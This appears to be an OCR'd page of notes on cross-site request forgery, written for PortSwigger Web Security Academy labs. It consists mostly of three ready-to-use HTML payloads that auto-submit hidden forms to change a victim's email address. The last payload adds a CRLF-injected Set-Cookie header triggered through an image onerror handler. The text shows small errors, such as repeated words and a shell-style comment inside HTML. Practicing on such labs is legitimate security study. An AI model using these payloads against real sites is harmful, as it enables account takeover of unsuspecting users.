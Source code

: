 #### Session token validation
If there there is validation of session token presented we need to add this token to our payload:

```html
<html>
  <body>
    <form action="TARGET.COM/path/to/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@example.com">
      <input type="hidden" name="cookie" value="session=YFRxHNSadi6IgBn05CdTi5w92Qywmp5z"> # could be token or whatever, here we just use session for portswigger lab
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### CSRF token validation
If there there is validation of CSRF token presented we need to add this token to our payload(csrf token here will be for one time use so need to use intercept there):

```html
<html>
  <body>
    <form action="https://0ae5000a04ac221c80d30dea00d9003a.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="csrf" value="rB4A7VVAVriHdytuKqwvZzj7uk9nyCyO">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


#### CSRF where token is tied to non-session cookie
If there there is validation of CSRF token and cookie presented we need to add this token to our payload(csrf token here will be for one time use so need to use intercept there) and Set-Cookies (csrfKey):

```html
<html>
  <body>
    <form action="https://0a55008c03d3c78882b5f12500ff0056.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attack@email.net">
      <input type="hidden" name="csrf" value="yf8Pp0EPWFwOyppqD2U7YH43Sy1UKRkQ">
    </form>
    <img src="https://0a55008c03d3c78882b5f12500ff0056.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=Womglu5UhJg621xuSu5JhcOQfnGuN82K%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
